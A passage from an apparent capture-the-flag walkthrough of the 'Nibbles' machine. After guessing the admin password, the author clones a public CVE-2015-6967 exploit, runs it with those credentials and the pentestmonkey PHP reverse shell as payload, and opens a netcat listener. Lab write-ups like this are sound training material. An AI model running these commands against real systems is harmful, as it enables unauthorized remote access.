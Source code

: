 I tried a more **slowly approach for brute forcing**, but it didn't work, so, after waiting a cooldown period, I tried the **name of the machine in lowercase as the password**, and it worked:
<br />
![](/assets/Nibbles/14.png)
<br />
<br />
<br />

Let's now download and run the [script](https://github.com/dix0nym/CVE-2015-6967) we previously saw alongside the [**pentest monkey PHP reverse shell**](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), also let's open a **listener** for our reverse shell:
```bash
git clone https://github.com/dix0nym/CVE-2015-6967.git
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload ../monkey.php
```

```bash
rlwrap nc -nlvp 4444
```

![](/assets/Nibbles/15.png)
<br />
<br />
<br />
